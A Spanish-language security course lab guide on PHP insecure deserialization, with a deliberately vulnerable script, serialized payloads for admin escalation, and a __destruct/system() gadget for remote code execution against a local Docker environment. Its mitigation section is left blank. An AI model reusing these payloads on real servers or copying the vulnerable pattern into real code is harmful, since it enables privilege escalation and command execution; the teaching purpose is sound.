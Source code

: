 # PPS-Unidad3Actividad-DeserializacionInsegura
Explotación y Mitigación de vulnerabilidad de Deserialización Insegura
Tenemos como objetivo:

> - Ver cómo se pueden hacer ataques de Deserialización insegura.
>
> - Analizar el código de la aplicación que permite ataques de Deserialización insegura.
>
> - Explorar la deserialización insegura y mitigarlo con JSON
>
> - Implementar diferentes modificaciones del codigo para aplicar mitigaciones o soluciones.


## ¿Qué es Unsafe Deserialization?
---

La deserialización insegura ocurre cuando una aplicación carga objetos serializados sin validación, lo que permite que un atacante modifique los datos y ejecute código arbitrario.

Impacto de la Deserialización Insegura:

• Escalada de privilegios (ejemplo: convertir un usuario normal en administrador).

• Ejecución de código remoto (RCE) si la aplicación permite __wakeup() o __destruct().

• Modificación de datos internos en la aplicación.



## ACTIVIDADES A REALIZAR
---
> Lee detenidamente la sección de vulnerabilidades de subida de archivos.  de la página de PortWigger <https://portswigger.net/web-security/deserialization>
>
> Lee el siguiente [documento sobre Explotación y Mitigación de ataques de Remote Code Execution](./files/ExplotacionYMitigacionDeserializacionInsegura.pdf)
> 


Vamos realizando operaciones:

### Iniciar entorno de pruebas

-Situáte en la carpeta de del entorno de pruebas de nuestro servidor LAMP e inicia el esce>

~~~
docker-compose up -d
~~~


## Código vulnerable
---

Crear el archivo vulnerable: deserialize.php

~~~
<?php
	class User {
		public $username;
		public $isAdmin = false;
	}
	$data = unserialize($_GET['data']);
	if ($data->isAdmin) {
		echo "¡Acceso de administrador concedido!";
	}
?>
~~~
El código deserializa datos de usuario sin validación (unserialize($_GET['data'])) y permite modificar el objeto y otorgar privilegios no autorizados.


### Explotación de Deserialización Insegura
---

**Crear un objeto malicioso en PHP**

Crear el archivo **ejemploDeserializacion.php**  y ejecutar este código en la máquina atacante:

~~~
<?php
class User {
	public $username = "hacker";
	public $isAdmin = true;
}
echo urlencode(serialize(new User()));
?>
~~~

Salida esperada (ejemplo):

`O%3A4%3A%22User%22%3A2%3A%7Bs%3A8%3A%22username%22%3Bs%3A6%3A%22hacker%22%3Bs%3A7%3A%22isAdmin%22%3Bb%3A1%3B%7D`

![](images/UD1.png)

**Enviar el objeto malicioso a la aplicación**

- Copiar la salida obtenida

- Acceder a esta URL en el navegador `http://localhost/deserialize.php?data=` y concatenarla con el código obtenido:

~~
http://localhost/deserialize.php?data=O%3A4%3A%22User%22%3A2%3A%7Bs%3A8%3A%22username%22%3Bs%3A6%3A%22hacker%22%3Bs%3A7%3A%22isAdmin%22%3Bb%3A1%3B%7D

O%3A4%3A%22User%22%3A2%3A%7Bs%3A8%3A%22username%22%3Bs%3A6%3A%22hacker%22%3Bs%3A7%3A%22isAdmin%22%3Bb%3A1%3B%7D

Si la aplicación es vulnerable, debería mostrar:

¡Acceso de administrador concedido!

![](images/UD2.png)


**Intentar RCE con __destruct()**

Si la clase User tiene un método __destruct(), se puede abusar para ejecutar código en el servidor.

Previamente añadimos al fichero deserialize.php

~~~
class Exploit {
	public $cmd;
	public function __destruct() {
		system($this->cmd);
	}
}
~~~

Luego creamos el fichero php malicioso

~~~
<?php
class Exploit {
	public $cmd;
	public function __destruct() {
		system($this->cmd);
	}
}
$exploit = new Exploit();
$exploit->cmd = "whoami";
echo urlencode(serialize($exploit));
?>
~~~

Ejemplo de salida:
O%3A7%3A%22Exploit%22%3A1%3A%7Bs%3A3%3A%22cmd%22%3Bs%3A2%3A%22id%22%3B%7D
Enviar este payload a la aplicación:
http://localhost/deserialize.php?data=O%3A7%3A%22Exploit%22%3A1%3A%7Bs%3A3%3A%22cmd%22%3Bs%3A
2%3A%22id%22%3B%7D
Si la aplicación es vulnerable y ejecuta system(), se puede ejecutar comandos en el servidor. En nuestro caso
ejecuta whoami devolviendo www-data
---


![](images/UD.png)
![](images/UD.png)
![](images/UD.png)
![](images/UD.png)
![](images/UD.png)
![](images/UD.png)

Aquí está el código securizado:

🔒 Medidas de seguridad implementadas

- :

        - 

        - 



🚀 Resultado

✔ 

✔ 

✔ 

## ENTREGA

> __Realiza las operaciones indicadas__

> __Crea un repositorio  con nombre PPS-Unidad3Actividad6-Tu-Nombre donde documentes la realización de ellos.__

> No te olvides de documentarlo convenientemente con explicaciones, capturas de pantalla, etc.

> __Sube a la plataforma, tanto el repositorio comprimido como la dirección https a tu repositorio de Github.__

